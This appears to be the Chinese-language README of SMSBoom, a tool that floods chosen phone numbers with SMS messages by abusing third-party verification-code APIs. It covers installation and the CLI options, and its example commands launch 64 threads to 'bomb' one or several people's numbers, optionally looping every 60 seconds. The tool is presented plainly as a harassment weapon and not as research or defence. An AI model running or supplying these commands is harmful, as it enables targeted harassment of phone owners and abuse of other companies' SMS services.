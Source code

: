 # SMSBoom (重制版)

## Feature

1. 通过自定义 `api.json` 的方式定义接口.  
2. 支持关键字替换. **时间戳** `{timestamp}` **手机号** `{phone}`  
3. 多线程/异步 请求.  
4. 通过 Flask 提供网页测试/添加接口.  
5. 友好的命令行参数支持.  
6. 采用方便的 pipenv 包管理.  

## Quick Start

1. **下载本项目**  

- 方法一：使用Git:  

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```  

> 墙国加速
>  
> ```shell
> git clone https://github.do/https://github.com/AdminWhaleFall/SMSBoom.git
> ```  

- 方法二：点击下载[项目压缩包](https://github.com/AdminWhaleFall/SMSBoom/archive/refs/heads/master.zip)并解压.  

2. **配置环境**  

> **请确保自己的电脑有 `python3.x` 的环境,推荐使用 `3.8` 及以上！**  

- 安装 pipenv 包管理工具.  

```shell
pip install pipenv  # windows
pip3 install pipenv # linux
```

- 为项目构建虚拟环境.  

```shell
pipenv install
```

- 尝试运行 smsboom.py  

```shell
pipenv run python3 smsboom.py  # linux
pipenv run python smsboom.py # windows
```

若无报错，输出帮助信息，则说明环境已经正确安装。

1. **运行**  

- 帮助信息  
```python
pipenv run python smsboom.py --help # windows
pipenv run python3 smsboom.py --help # linux
# 输出

Usage: smsboom.py [OPTIONS] COMMAND [ARGS]...    
Options:
--help  Show this message and exit.
Commands:
run     传入线程数和手机号启动轰炸,支持多手机号
update  从 github 获取最新接口
```

- 启动轰炸  

帮助信息:

```python
pipenv run python smsboom.py run --help # windows
pipenv run python3 smsboom.py run --help # linux

Usage: smsboom.py run [OPTIONS]

传入线程数和手机号启动轰炸,支持多手机号

Options:
-t, --thread INTEGER    线程数(默认64)
-p, --phone TEXT        手机号,可传入多个再使用-p传递  [required]
-s, --super             循环模式
-i, --interval INTEGER  循环间隔时间(默认60s)
--help                  Show this message and exit.
```

4. **命令示例**  

启动64个线程,轰炸一个人的手机号(198xxxxxxxx),只轰炸一波。

```python
pipenv run python smsboom.py run -t 64 -p 198xxxxxxxxx
```

启动64个线程,轰炸多个人的手机号(19xxxxxxx),启动循环轰炸，每个循环间隔60秒

```python
pipenv run python smsboom.py run -t 64 -p 198xxxxxxxxx -s -i 60
```


启动64个线程,轰炸多个人的手机号(138xxx,139xxxx),启动循环轰炸,每个循环间隔60秒。

```python
pipenv run python smsboom.py run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -s -i 60
```

